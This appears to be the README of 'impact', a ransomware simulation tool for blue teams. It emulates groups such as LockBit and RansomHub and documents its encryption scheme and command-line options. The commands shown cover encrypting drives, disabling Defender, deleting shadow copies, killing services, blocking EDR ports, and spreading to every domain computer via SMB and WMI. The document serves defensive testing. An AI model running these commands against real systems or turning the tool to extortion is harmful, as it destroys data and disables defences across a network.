

<p align="center">
    
</p>
<h1 align="center">Adversary Ransomware Simulation</h1>

<h2 align="center"> This tool is dangerous - misuse can lead to irreversible consequences for your data and systems.  
Use responsibly. </h2>

### impact is designed to help blue-teams test ransomware defenses in a controlled way as well as provide a means to reverse any impact with built-in decryption capabilities.

impact is an adversary ransomware simulator designed to replicate certain functionality often observed in groups such as BlackBasta, RansomHub, etc.

If you want to truly test your ransomware detection and prevention capabilities, impact will give you the capability to do so using real-world observations.

impact provides the capability to simulate many common TTPs used by encryptors such as intermittent encryption, Defender tampering, blocking network traffic, killing configured processes/services, remote deployment and many more.

Main Features:
* Multi-threaded data encryption with file/directory exclusions/inclusions based on real-world observations
* Intermittent percent-based encryption using AES or XChaCha20 with configurable percentage
* Unique symmetric keys per file to avoid known-plaintext analysis attacks
* Ransomware file extensions and behaviors based on real-world group observations
* Ransomware Note Content/Names based on real-world group observations
* Capability to force-kill commonly targeted processes
* Capability to stop commonly targeted services
* Can tamper with Windows Defender
* Can block outbound communication to specific ports/domains
* Can remove existing VSS Copies
* Can create mock data sets of specified size/file count for targeting rather than using pre-existing data
* Adjustable encryption/decryption concurrency
* Capability to execute ransomware 'inline' or 'outline' - meaning either writing over the same file or writing to a new file and deleting the original
* Stores encrypted configuration data embedded within the executable
* Capability to delay ransomware note creation to avoid immediate static detection signatures
* Can target specific directories or enumerate all local/network drives to target
* Can read remote target list via file/cmdline/AD for execution

Just a note that impact does not perfectly emulate all the TTPs/Behaviors of any given group - but it is good enough as a 
simulation in my experience dealing with these types of attacks.

Most encryption schemes for ransomware involve the generation of a unique symmetric key on a per-file basis - after 
the file is encrypted, an embedded public key is then used to encrypt the symmetric key (along with other data 
sometimes such as percent encrypted, original file-size, etc) and this additional encrypted data is appended to the end of each file.

The exact data varies per group - impact uses a generic implementation across all groups - the main differentiators between groups in the impact implementation are as follows:
* Ransomware Extension[s]
* Extension Editing Differences - Mutate vs Append
* Ransomware Note Name[s]
* Ransomware Note Content
* Symmetric Cipher Utilized
* Asymmetric Cipher Utilized
* Ransomware Note Behavior - Delayed or Immediate

Thus, the implementation remains the same between groups in this tool and it is mainly the metadata that presents a difference.

Every time that an encryption command is executed, a corresponding decryption command will be created in local file 'decryption_command.txt' - this command will provide instructions on how to reverse the encryption by specifying the appropriate reversed command-line arguments.

In general, the encryption flow is as follows:
1. From target directory, files and directories are checked to determine whether they should be encrypted based on specified inclusions/exclusions in embedded config file
   * This can be based on extension, file name or directory name
   * 0 byte files are always excluded
2. For each file, first we generate a random symmetric key for AES/XChaCha20
3. If file size is less than our minimum threshold, we encrypt the entire file
4. If file is larger than the threshold, we encrypt a percentage of the file in chunks
5. Once complete, we generate a data structure to append to the end of the file and encrypt this structure with our embedded public RSA/ECC key 
   * This data structure contains the following:
   * Length + Content of Symmetric Key
   * Length + Content of Symmetric Nonce
   * Length + Content of Original Extension (in case we are mutating)
6. Following this, we also embed two more data structures representing the length of our encrypted metadata struct and an encryption signature
7. Impact then either appends our ransomware extension or mutates the existing extension depending on the specified method

### Groups Currently Implemented
* BlackBasta
* RansomHub
* Play
* Royal
* Medusa
* LockBit

The above groups have an entry in the configuration representing their commonly observed extensions, note names, note contents, encryption mechanism, extension method and note behavior.  These can be easily modified/customized based on desired properties in config.yaml - just follow instructions below to rebuild when changes are made.
```shell
go run github.com/abakum/embed-encrypt
go build .
```

### Command Examples
```shell
impact -directory \\localhost\C$\test -create -create_files 10000 -create_size 5000
# Create 10,000 files with an overall target data size of 5,000 Megabytes in the target directory

impact -directory \\localhost\C$\test -group ransomhub -recursive
# Encrypt the target directory recursively using notes, note-names, file extensions and encryption algorithms associated with the RansomHub group

impact -directory \\localhost\C$\test -group ransomhub -recursive -cipher xchacha20
# Same as above, but force the use of a specific cipher (defaults to group configuration)

impact -directory \\localhost\C$\test -group ransomhub -recursive -cipher xchacha20 -rsa_public "rsa_public.key"
# Same as above, but force the use of a specific public key for encryption (defaults to internally embedded key)

impact -directory \\localhost\C$\test -group ransomhub -recursive -cipher xchacha20 -rsa_public "rsa_public.key" -workers 100
# Same as above, but increase concurrency (default 25 threads)

impact -directory \\localhost\C$\test -group ransomhub -recursive -cipher xchacha20 -rsa_public "rsa_public.key" -workers 100 -ep 75
# Same as above, but increase how much the percentage of a file that gets encrypted (default 25%)

impact -directory \\localhost\C$\test -group ransomhub -recursive -cipher xchacha20 -rsa_public "rsa_public.key" -workers 100 -ep 75 -threshold 2048
# Same as above, but increase the size threshold for automatically encrypting 100% of a file (default 1048 bytes)

impact -directory * -group play -killprocs -killservices -vss -blockports -defender
# Enumerates all local/network drives for encryption from top-level down along with killing configured processes/services, removing shadow copies, tampering with Defender and blocking commonly-used EDR ports

impact -directory * -group play -recursive -workers 50 -ep 40 -killprocs -vss -blockports -killservices -defender -targetad -exec_method wmi
# Read enabled computers from AD and execute impact remotely with provided parameters via WMI - will also kill configured processes and services, destroy VSS copies and block outbound ports via Windows Firewall
# impact will be copied to remote targets via SMB and executed with the specified exec_method
```

### Example Usage

|                                                                                     | 
|:-------------------------------------------------------------------------------------------------------------------------------------------:| 
|                                   *Creating 6 GB of mock data across 12,500 files in specified directory*                                   |
|                                                                                       | 
|                                  :-----------------------------------------------------------------------:                                  | 
| *Encrypt the data set while simulating LockBit - this also generates a 'decryption_command.txt' file describing how to reverse the process* |


### Arguments
```
  -blockhosts
        Attempt to add configured domains into hosts.etc for redirection - requires admin privileges
  -blockports
        Attempt to add configured ports into a Windows Firewall Rule (if enabled) for blocking - requires admin privileges
  -cipher string
        Specify Symmetric Cipher for Encryption/Decryption
  -create
        Create a mixture of dummy-data files in the target directory for encryption targeting - when using this, only files created by impact will be targeted for encryption, regardless of existence
  -create_files int
        How many dummy-files to create (default 5000)
  -create_size int
        Size in megabytes of dummy-file data to target - distributed evenly across create_files count (default 5000)
  -decrypt
        Attempt to decrypt using specified options - must include RSA Private Key and Group Name OR Cipher Used
  -defender
        Attempt to disable various aspects of Windows Defender when doing encryption - requires admin privileges
  -directory string
        Target Directory - can be UNC Path (\\localhost\C$\test) or Local (C:\test) or '*' to indicate local drive enumeration for complete targeting
  -ecc_private string
        Specify ECC Private-Key File - must be specified with decrypt if asymmetric system is ECC
  -ecc_public string
        Specify ECC Public-Key File to use - if blank, will use embedded key
  -ep int
        Percentage of data to encrypt in each file over the 100%-auto threshold (default 25)
  -exec_method string
        How to execute remote copies of impact - wmi, task, service, reg, startup, mmc (default "wmi")
  -force_extension string
        Force the use of a specific encryption extension
  -force_note_name string
        Force the use of a specific filename for a ransomware note
  -generate_keys
        If specified, will generate new RSA/ECC keys to use for encryption/decryption purposes
  -group string
        Specify a group to emulate - if none selected, will select one at random
  -killprocs
        Attempt to stop configured list of process binaries on the target machine prior to encryption - requires admin privileges
  -killservices
        Attempt to stop configured list of services - requires admin privileges
  -list
        List available groups to emulate
  -method string
        inline - Read File, Encrypt in Memory, Write Modifications to Disk; outline - Read File, Encrypt to New File, Delete Original (default "inline")
  -recursive
        Whether or not to encrypt all subdirs recursively or not
  -remotecopypath string
        If specified, impact will be copied to this location on the remote device - if blank, will use the default ADMIN$ share
  -rsa_private string
        Specify RSA Private-Key File - must be specified with decrypt if asymmetric system is RSA
  -rsa_public string
        Specify RSA Public-Key File to use - if blank, will use embedded key
  -skipconfirm
        Skip Directory Confirmation Prompt (be careful!)
  -skipshares
        If enabled, impact will not target network shares
  -targetNetworkShares
        If enabled, impact will target network shares if target_dir == "*"
  -targetad
        If enabled, impact will target all enabled computers in the current domain - requires admin privileges
  -targets value
        A comma-separated list of hostnames/IP addresses - impact will be copied to the remote device via SMB and executed via the chosen method
  -targets_file string
        Specify a file containing line-delimited hostnames/IPs to use as execution targets
  -threshold int
        File size in bytes to automatically encrypt 100% of the contents if file Size <= provided number (default 1024)
  -vss
        Attempt to remove all VSS copies prior to encryption - requires admin privileges
  -workers int
        How many goroutines to use for encryption - think of this as a limiter for number of concurrent files that can be encrypted/decrypted (default 25)
```

### Building your own binary
If you want to modify any part of impact or the configuration file, you will need to build your own binary. 

Before building in Go, be sure to run the following command to create the encrypted configuration file:

```go run github.com/abakum/embed-encrypt```

Then you can freely run 'go build .' to create the standalone executable.

I'm doing some research on achieving this in a more dynamic way so that the encrypted embedded configuration can be altered dynamically without having to fully rebuild.

### Credits/Acknowledgements
* github.com/mxk/go-vss
  * LICENSE: MPL 2.0